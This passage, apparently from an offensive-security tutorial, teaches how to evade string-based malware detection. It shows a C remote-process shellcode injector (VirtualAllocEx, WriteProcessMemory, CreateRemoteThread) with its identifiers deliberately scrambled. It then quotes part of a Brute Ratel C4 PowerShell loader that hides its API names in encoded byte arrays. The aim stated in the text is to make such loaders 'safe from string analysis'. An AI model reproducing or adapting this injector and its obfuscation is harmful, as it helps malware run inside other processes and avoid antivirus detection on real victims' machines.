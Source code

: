 Notice that all of the iostream was written to strings,  and even the shellcode byte array was leaked. This is a smaller program, so imagine what a fleshed-out and un-obfuscated program would look  like!

We can remove comments and replace the meaningful identifiers to resolve this problem.

```c
#include "windows.h"

int main(int argc, char* argv[])
{
	unsigned char awoler[] = "";

	HANDLE awerfu;
	HANDLE rwfhbf;
	PVOID iauwef;

	awerfu = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
	iauwef = VirtualAllocEx(awerfu, NULL, sizeof awoler, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
	WriteProcessMemory(awerfu, iauwef, awoler, sizeof awoler, NULL);
	rwfhbf = CreateRemoteThread(awerfu, NULL, 0, (LPTHREAD_START_ROUTINE)iauwef, NULL, 0, NULL);
	CloseHandle(awerfu);

	return 0;
}
```

We should no longer have any identifiable string information, and the program is safe from string analysis.

------

As an example for an interpreted language we can observe the deprecated [Badger PowerShell loader](https://github.com/paranoidninja/Brute-Ratel-C4-Community-Kit/blob/main/deprecated/badger_template.ps1) from the [BRC4 Community Kit](https://github.com/paranoidninja/Brute-Ratel-C4-Community-Kit).

```powershell
Set-StrictMode -Version 2
[Byte[]] $Ait1m = @(0x3d, 0x50, 0x51, 0x57, 0x50, 0x4e, 0x5f, 0x50, 0x4f, 0x2f, 0x50, 0x57, 0x50, 0x52, 0x4c, 0x5f, 0x50)
[Byte[]] $ahv3I = @(0x34, 0x59, 0x38, 0x50, 0x58, 0x5a, 0x5d, 0x64, 0x38, 0x5a, 0x4f, 0x60, 0x57, 0x50)
[Byte[]] $Moo5y = @(0x38, 0x64, 0x2f, 0x50, 0x57, 0x50, 0x52, 0x4c, 0x5f, 0x50, 0x3f, 0x64, 0x5b, 0x50)
[Byte[]] $ooR5o = @(0x2e, 0x57, 0x4c, 0x5e, 0x5e, 0x17, 0x0b, 0x3b, 0x60, 0x4d, 0x57, 0x54, 0x4e, 0x17, 0x0b, 0x3e, 0x50, 0x4c, 0x57, 0x50, 0x4f, 0x17, 0x0b, 0x2c, 0x59, 0x5e, 0x54, 0x2e, 0x57, 0x4c, 0x5e, 0x5e, 0x17, 0x0b, 0x2c, 0x60, 0x5f, 0x5a, 0x2e, 0x57, 0x4c, 0x5e, 0x5e)
[Byte[]] $Reo5o = @(0x3d, 0x60, 0x59, 0x5f, 0x54, 0x58, 0x50, 0x17, 0x0b, 0x38, 0x4c, 0x59, 0x4c, 0x52, 0x50, 0x4f)
[Byte[]] $Reib3 = @(0x3d, 0x3f, 0x3e, 0x5b, 0x50, 0x4e, 0x54, 0x4c, 0x57, 0x39, 0x4c, 0x58, 0x50, 0x17, 0x0b, 0x33, 0x54, 0x4f, 0x50, 0x2d, 0x64, 0x3e, 0x54, 0x52, 0x17, 0x0b, 0x3b, 0x60, 0x4d, 0x57, 0x54, 0x4e)
[Byte[]] $Thah8 = @(0x3b, 0x60, 0x4d, 0x57, 0x54, 0x4e, 0x17, 0x0b, 0x33, 0x54, 0x4f, 0x50, 0x2d, 0x64, 0x3e, 0x54, 0x52, 0x17, 0x0b, 0x39, 0x50, 0x62, 0x3e, 0x57, 0x5a, 0x5f, 0x17, 0x0b, 0x41, 0x54, 0x5d, 0x5f, 0x60, 0x4c, 0x57)
[Byte[]] $ii5Ie = @(0x34, 0x59, 0x61, 0x5a, 0x56, 0x50)
[Byte[]] $KooG5 = @(0x38, 0x54, 0x4e, 0x5d, 0x5a, 0x5e, 0x5a, 0x51, 0x5f, 0x19, 0x42, 0x54, 0x59, 0x1e, 0x1d, 0x19, 0x40, 0x59, 0x5e, 0x4c, 0x51, 0x50, 0x39, 0x4c, 0x5f, 0x54, 0x61, 0x50, 0x38, 0x50, 0x5f, 0x53, 0x5a, 0x4f, 0x5e)
[Byte[]] $io9iH = @(0x32, 0x50, 0x5f, 0x3b, 0x5d, 0x5a, 0x4e, 0x2c, 0x4f, 0x4f, 0x5d, 0x50, 0x5e, 0x5e)
[Byte[]] $Qui5i = @(0x32, 0x50, 0x5f, 0x38, 0x5a, 0x4f, 0x60, 0x57, 0x50, 0x33, 0x4c, 0x59, 0x4f, 0x57, 0x50)
[Byte[]] $xee2N = @(0x56, 0x50, 0x5d, 0x59, 0x50, 0x57, 0x1e, 0x1d)
[Byte[]] $AD0Pi = @(0x41, 0x54, 0x5d, 0x5f, 0x60, 0x4c, 0x57, 0x2c, 0x57, 0x57, 0x5a, 0x4e)
```